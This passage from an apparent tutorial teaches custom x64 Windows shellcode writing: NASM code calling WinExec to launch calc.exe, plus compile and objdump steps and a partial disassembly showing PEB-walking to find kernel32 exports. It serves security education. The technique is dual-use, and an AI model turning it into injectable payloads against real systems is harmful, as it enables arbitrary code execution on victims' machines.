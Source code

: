 Sure enough, there is is!

![image](https://github.com/user-attachments/assets/e0ad0871-14dc-4576-bffd-eaa977c691b2)

**Now let's use our newfound WinExec address to execute calc.exe!**

```nasm
executeit:
; --- prepare to call WinExec ---
pop r15                         ;address for WinExec
mov rax, 0x00                   ;push null string terminator '0'
push rax                        ;push it onto the stack
mov rax, 0x6578652E636C6163     ; move string 'calc.exe' into RAX 
push rax                        ; push string + null terminator to stack
mov rcx, rsp	                  ; RDX points to stack pointer "WinExec" (1st parameter))
mov rdx, 1                      ; move 1 (show window parameter) into RDX (2nd parameter)
sub rsp, 0x30                   ; align stack 16 bytes and allow for proper setup for shadow space demands
call r15                        ; Call WinExec!!
```

I don't need to take a pic of calc.  just trust me, it loaded 😸  **HOWEVER**!!! This compiled program does not exit gracefully because we do not load `ExitProcess`.
That can be your homework.  Try and find a way to use the information gleaned in this writeup to also locate ExitProcess (it's also in kernel32.dll) and exit this program cleanly.  Okay, onto our last segment...

***Part 3 - Convert to x64 Shellcode: execute your custom shellcode***
-

Here's the manual way to get the shellcode from your program:

First off, go ahead and compile it:

`nasm.exe -f win64 winexec.asm`

That will produce an .obj file.  Now, just do the following:

`objdump -d winexec.obj`

You should get your shellcode output along with your assembly instructions.  Here's what mine looks like.  Go ahead and copy the machine code.  I'd recommend using Linux to simplify filtering out all the junk you don't need using SED and AWK.  

The machine code is contained in the middle section of the output below: 

```nasm
winexec.obj:     file format pe-x86-64

Disassembly of section .text:

0000000000000000 <main>:
   0:   48 83 ec 28             sub    $0x28,%rsp
   4:   48 83 e4 f0             and    $0xfffffffffffffff0,%rsp
   8:   48 31 c9                xor    %rcx,%rcx
   b:   65 48 8b 41 60          mov    %gs:0x60(%rcx),%rax
  10:   48 8b 40 18             mov    0x18(%rax),%rax
  14:   48 8b 70 10             mov    0x10(%rax),%rsi
  18:   48 8b 36                mov    (%rsi),%rsi
  1b:   48 8b 36                mov    (%rsi),%rsi
  1e:   48 8b 5e 30             mov    0x30(%rsi),%rbx
  22:   49 89 d8                mov    %rbx,%r8
  25:   8b 5b 3c                mov    0x3c(%rbx),%ebx
  28:   4c 01 c3                add    %r8,%rbx
  2b:   8b 93 88 00 00 00       mov    0x88(%rbx),%edx
  31:   4c 01 c2                add    %r8,%rdx
  34:   44 8b 52 14             mov    0x14(%rdx),%r10d
  38:   4d 31 db                xor    %r11,%r11
  3b:   44 8b 5a 20             mov    0x20(%rdx),%r11d
```